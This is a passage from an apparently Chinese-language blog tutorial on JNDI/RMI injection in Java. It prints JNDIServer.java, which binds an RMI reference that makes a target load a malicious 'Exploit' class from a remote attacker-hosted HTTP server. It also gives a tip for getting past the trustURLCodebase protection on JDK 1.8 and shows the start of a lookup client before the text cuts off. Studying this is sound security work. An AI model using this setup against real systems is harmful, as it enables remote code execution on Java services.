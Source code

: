**注意** 编译`Exploit`的java版本需要和接下来要用的本地java版本一致，否则会导致错误

经过测试jdk1.8版本会有异常产生，需要额外设置`com.sun.jndi.rmi.object.trustURLCodebase = True`，所以这里建议使用jdk1.8以下版本

![error](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/b2MmC)

编译完成之后在VPS开启一个http服务

#### 本地
> JNDIServer.java

```
package person.server;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by liaoxinxi on 2017-11-6.
 */

public class JNDIServer {
    public static void start() throws AlreadyBoundException, RemoteException, NamingException {
        Registry registry = LocateRegistry.createRegistry(1099);
        //http://xxlegend.com/Exploit.class即可
        //factoryLocation 一定得是ip后带斜杠，这个斜杠少不得，少了的话到web服务器的请求就变成了GET / 而不是正常的GET /Exploit.class
        Reference reference = new Reference("Exploit",
                "Exploit", "http://remote_server:80/"); //此处修改为自己的远程服务器
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("Exploit", referenceWrapper);

    }

    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        start();
    }
}
```

将`factoryLocation`指向远程`Exploit`所在的地址，并且要以`/`结尾，原因注释里已经说了

> TestJNDI.java

```
package person;

import javax.naming.*;
import javax.naming.directory.DirContext;
import javax.naming.directory.InitialDirContext;
import java.util.Hashtable;


/**
 * Created by liaoxinxi on 2017-9-5.
 */
public class TestJNDI {
    public static void testRmi() throws NamingException {
        String url = "rmi://127.0.0.1:1099";
        Hashtable env = new Hashtable();
        env.put(Context.PROVIDER_URL, url);
```